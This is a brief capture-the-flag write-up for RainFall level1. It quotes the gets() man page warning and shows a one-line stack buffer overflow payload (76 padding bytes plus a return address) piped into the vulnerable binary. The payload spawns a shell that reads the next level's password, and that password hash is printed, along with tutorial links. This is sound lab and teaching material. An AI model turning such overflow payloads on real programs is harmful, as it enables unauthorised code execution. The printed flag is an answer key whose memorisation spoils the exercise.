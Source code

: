 From `gets` man page : 
```
BUGS
       Never use gets().  Because it is impossible to tell without knowing the
       data  in  advance  how  many  characters  gets() will read, and because
       gets() will continue to store characters past the end of the buffer, it
       is  extremely dangerous to use.  It has been used to break computer se‐
       curity.  Use fgets() instead.
```

The use of `gets` is discouraged because it cans allow bufferoverflow to happen.

> level1@RainFall:~$ (python -c 'print "A" * 76 + "\x44\x84\x04\x08"' ; cat) | ./level1   
Good... Wait what?

>cd /home/user/level2   
>cat .pass   
>53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

# Sources :

About `gets` function : 
- https://pubs.opengroup.org/onlinepubs/009695399/functions/gets.html
- https://stackoverflow.com/questions/4346598/gets-function-in-c

About bufferoverflows and how to exploit them : 
- https://www.kali-linux.fr/hacking/overflow-comment-ca-marche
- https://www.kali-linux.fr/hacking/overflows-passons-a-la-pratique


Assembly basics :
- https://beta.hackndo.com/assembly-basics/